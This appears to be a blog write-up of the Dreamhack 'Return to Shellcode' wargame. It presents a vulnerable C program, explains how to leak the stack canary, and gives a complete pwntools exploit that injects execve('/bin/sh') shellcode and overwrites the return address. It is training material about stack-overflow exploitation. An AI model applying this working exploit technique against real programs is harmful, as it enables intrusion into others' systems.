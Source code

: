 ```yaml
---
layout: post
title: "[dreamhack] Return to Shellcode"
comments: true
category: wargame
---
```


## checksec
<img src="/assets/img/Return-to-Shellcode/checksec.png" width="400">

There isn't NX, so we can exec code on stack.<br />
Maybe we have to leak canary, and overwrite RA to stack, and exec it.

***

## C code
```cpp
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

<img src="/assets/img/Return-to-Shellcode/execute1.png" width="400">

Compare c code and image of executing binary,<br />
binary writes buf's address and distance of buf and $rbp.<br />
Cause of aslr, buf's address is change every time, but distance is fixed.<br />

<img src="/assets/img/Return-to-Shellcode/execute2.png" width="400">

After send input to binary, it will write our input like above image.<br />
If there is no null bytes between our input and canary,<br />
then binary will print our input and canary all.<br />
(Because '%s' is just know string's end by null byte.)<br />
We can leak canary.

And then, we can again send input to binary.<br />
At this time, we know canary, so it becomes really similar to exploitaion-000.

***

## Ex code
```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

shellcode = asm(shellcraft.execve('/bin/sh'))

r = process('./r2s')

r.recvuntil(b'buf: ')
bufAddr = int(r.recvn(14), 16)

buf = b'A' * 0x59
r.sendafter(b'Input: ', buf)
r.recvuntil(buf)
canary = u64(b'\x00' + r.recvn(7))

payload = shellcode + b'A' * (0x58 - len(shellcode))
payload += p64(canary)
payload += b'B' * 0x8
payload += p64(bufAddr)
r.sendlineafter(b'Input ', payload)

r.interactive()
```